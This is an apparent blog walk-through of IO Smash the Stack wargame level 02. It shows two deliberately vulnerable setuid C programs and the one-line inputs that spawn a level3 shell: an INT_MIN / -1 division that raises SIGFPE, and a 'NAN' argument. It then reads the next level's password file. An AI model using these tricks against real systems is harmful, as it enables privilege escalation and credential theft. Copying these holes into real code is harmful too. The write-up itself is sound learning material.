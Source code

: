 +++
title = "IO Smash the stack level 02"
date = "2016-01-26T09:06:00-02:00"
publishdate = "2016-01-26"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-02"
project_url = "https://greyhat.dk/io-smashthestack-level-02"
type = "post"
description = "Walk-through"
+++

## Level02

```sh
level2@io:~$ cd /levels/
level2@io:/levels$ ls -latr level02*
-r-------- 1 level2 level2  437 May 26  2011 level02_alt.c
-r-sr-x--- 1 level3 level2 6940 May 26  2011 level02_alt
-r-sr-x--- 1 level3 level2 5329 Oct  4  2011 level02
-r-------- 1 level2 level2  495 Apr 13  2015 level02.c
```

This time we got source code so lets look at it

level2@io:/levels$ cat level02.c
```c
//a little fun brought to you by bla

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void catcher(int a)
{
        setresuid(geteuid(),geteuid(),geteuid());
	printf("WIN!\n");
        system("/bin/sh");
        exit(0);
}

int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");

        if (argc != 3 || !atoi(argv[2]))
                return 1;
        signal(SIGFPE, catcher);
        return abs(atoi(argv[1])) / atoi(argv[2]);
}
```

So in order to get the cacher function to run we need to get provide 2 arguments (argv[0] is the program itself) and the last argument must not be 0. Since the cacher will only run on signal SIGFPE then lets have a look at the man page for signal(2)

> According to POSIX, the behavior of a process is undefined after it ignores a SIGFPE, SIGILL, or SIGSEGV signal that was not generated by kill(2) or raise(3).  Integer division by  zero  has  
> undfined result.  On some architectures it will generate a SIGFPE signal.  (Also dividing the most negative integer by -1 may generate SIGFPE.)  Ignoring this signal might lead to an endless loop.

So the most negative integer would eihter be -2^15 (2 bytes) or -2^31 (4 bytes) and since this is a 32bit system lets try with 4 bytes

```sh
level2@io:/levels$ ./level02 $(echo "-2^31"|bc) -1
source code is available in level02.c

WIN!
sh-4.2$ whoami
level3
sh-4.2$ cat /home/level3/.pass
XXXXXXXXXXXXXXXX
```

## Level02 alt

level2@io:/levels$ cat level02_alt.c
```c
/* submitted by noname */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


#define answer 3.141593

void main(int argc, char **argv) {

	float a = (argc - 2)?: strtod(argv[1], 0);

        printf("You provided the number %f which is too ", a);


        if(a < answer)
                 puts("low");
        else if(a > answer)
                puts("high");
        else
                execl("/bin/sh", "sh", "-p", NULL);
}
```

The alternative level took me a while to find. There is no equel sign so I started reading up on strtod(3) and found

> A NAN is "NAN" (disregarding case) optionally followed by '(', a sequence of characters, followed by ')'.  The character string specifies in an implementation-dependent way the type of NAN.

```sh
level2@io:/levels$ ./level02_alt NAN
sh-4.2$ whoami
level3
```
